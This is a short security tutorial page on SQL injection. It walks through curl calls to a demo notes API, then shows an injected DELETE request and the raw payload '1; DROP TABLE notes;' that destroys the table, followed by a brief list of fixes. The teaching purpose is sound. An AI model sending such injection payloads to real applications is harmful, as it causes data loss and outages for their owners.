 ```yaml
---
bookCollapseSection: false
---
```


# Anatomy of a Vulnerability

In this section we will create a SQL injection on vulnerable code, so that we
can perform malicious actions on the application. This shows how SQL injection
works, and explains how vulnerabilities in your application can be exploited and cause
harm to your organization.

## Dropping a Table via SQL Injection

In this example, I will show how to drop the table when running a
curl request and injecting malicious commands. I will show how
to exploit the `DELETE` note api call.

First let's go over a standard flow. We can create some notes via the API:

```bash
$ curl -X POST http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/add -d '{"message": "ZAP"}'

{
  "Success": "Note added!"
}

$ curl -X POST http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/add -d '{"message": "YEET"}'

{
  "Success": "Note added!"
}
```

Now we can delete it with the DELETE api-call:

```bash
$ curl -X DELETE http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/delete\?id\=2
```

Now let's see what happens when a hacker 🏴‍☠️ tries to exploit this api
path and see if they can perform some malicious activity:

**Revealing Info**

**Service Outage**

```bash
$ curl -X DELETE http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/delete\?id\=1%3B%20DROP%20TABLE%20notes
```

The above also drops the notes table, causing information loss and downtime to the application. This can
be critical to a business function.

This means that in the UI, a user can simply add the following to drop the table:

```sql
1; DROP TABLE notes;
```

### Resolution

There are a few things we can do to resolve this:

1. Input Validation in Frontend
2. Input Validation in Backend
3. Allow only one query to execute at a timeL